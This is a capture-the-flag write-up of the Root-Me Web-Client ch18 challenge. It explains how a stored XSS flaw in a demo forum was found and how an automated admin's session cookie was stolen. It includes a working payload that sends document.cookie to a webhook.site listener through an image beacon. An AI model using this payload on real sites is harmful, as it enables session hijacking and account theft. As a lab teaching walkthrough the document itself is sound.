









# Root-Me Web-Client ch18 — Stored XSS: Admin Cookie Exfiltration

## Overview

The target is a minimal forum ("Forum v0.001") that accepts a title and a message and displays posted messages back on the page. This write-up documents the discovery and exploitation of a **stored cross-site scripting (XSS)** vulnerability that allowed exfiltration of an administrator's session cookie.

## Environment

* Kali Linux on Oracle VirtualBox
* Burp Suite (intercepting proxy)
* Target: `http://challenge01.root-me.org/web-client/ch18/`

<figure><figcaption><p>Figure 1a - Initial RootMe Website</p></figcaption></figure>

<figure><figcaption><p>Figure 1b - RootMe and Burp Suite setup</p></figcaption></figure>

## Discovery

The application's structure — a post-and-display forum — closely resembled the DVWA stored-XSS exercise, so stored XSS was an early hypothesis.

```html
<script>alert("Hello World")</script>
```

The alert fired when the post rendered, confirming the application **stores and returns input without output encoding**, and that injected scripts execute.

<figure><figcaption><p>Figure 2a - Hello World Script</p></figcaption></figure>

<figure><figcaption><p>Figure 2b - Hello World Alert</p></figcaption></figure>

## Establishing the attack goal

With execution confirmed, I tested whether cookie theft was viable by injecting `document.cookie`. It returned blank — my own unauthenticated session had no JS-readable cookie. That reframed the problem: the cookie worth stealing belongs to whoever's browser _executes_ the script, not mine. I still needed to find how a privileged user would ever trigger the payload.

<figure><figcaption><p>Figure 3 - alert(document.cookie) payload</p></figcaption></figure>

## Ruling out an alternative path

The page displayed a `Status: visitor` label, so I checked in Burp whether privilege was tracked in a client-controllable value. Only `titre` and `message` were sent to the server — no status parameter — indicating the label is server-rendered and not forgeable. This ruled out a privilege-escalation route and confirmed XSS-based exfiltration as the necessary approach.

<figure><figcaption><p>Figure 4 - POST Request</p></figcaption></figure>

I also inspected the server's response headers and found **no `Content-Security-Policy`** — meaning inline scripts and outbound requests to external origins are unrestricted, a precondition for exfiltration to succeed.

<figure><figcaption><p>Figure 5 - Server Response</p></figcaption></figure>

## Finding the victim

Reviewing the page source, one system-generated post stood out: _"Message read / Your messages have been read."_ A passive forum wouldn't announce that messages had been read — so an automated process (inferred to be an admin) periodically renders the stored posts. That process is the victim context: when it renders my post, my script runs in _its_ browser.

<figure><figcaption><p>Figure 6 - Message has been read</p></figcaption></figure>

## Exploitation

I stood up a listener on webhook.site and crafted a payload that, on execution, reads the current cookie and sends it out-of-band as a query parameter:

<figure><figcaption><p>Figure 7a - Constructing the payload</p></figcaption></figure>

```html
<script>new Image().src='https://webhook.site/<id>/?c='+encodeURIComponent(document.cookie)</script>
```

The image beacon fires a GET the moment its `src` is set, without navigating the page or requiring CORS (the response is never read), and the cookie is URL-encoded to preserve its delimiters. After a few minutes — the admin process's next sweep — the listener received a request carrying the administrator's cookie:

<figure><figcaption><p>Figure 7b - Getting the cookie from webhook.site dashboard</p></figcaption></figure>
